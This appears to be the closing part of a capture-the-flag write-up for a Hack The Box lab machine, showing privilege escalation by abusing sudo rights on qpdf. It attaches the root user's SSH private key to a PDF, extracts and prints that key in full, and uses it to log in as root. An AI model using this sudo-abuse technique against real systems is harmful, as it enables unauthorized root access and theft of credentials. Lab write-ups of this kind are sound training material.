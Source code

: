 ```
sudo /usr/bin/qpdf --empty out.pdf --add-attachment /root/.ssh/id_rsa --
```

```
consuela@iclean:/tmp/privesc$ sudo /usr/bin/qpdf --show-attachment=id_rsa out.pdf
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

```
┌─[tobaka@parrot]─[~/ctf/htb]
└──╼ $chmod 600 id_rsa && ssh root@10.10.11.12 -i id_rsa
The authenticity of host '10.10.11.12 (10.10.11.12)' can't be established.
ED25519 key fingerprint is SHA256:3nZua2j9n72tMAHW1xkEyDq3bjYNNSBIszK1nbQMZfs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.12' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 - Documentation:  https://help.ubuntu.com
 - Management:     https://landscape.canonical.com
 - Support:        https://ubuntu.com/pro

  System information as of Sat Jun  8 02:12:20 PM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@iclean:~#
```

---
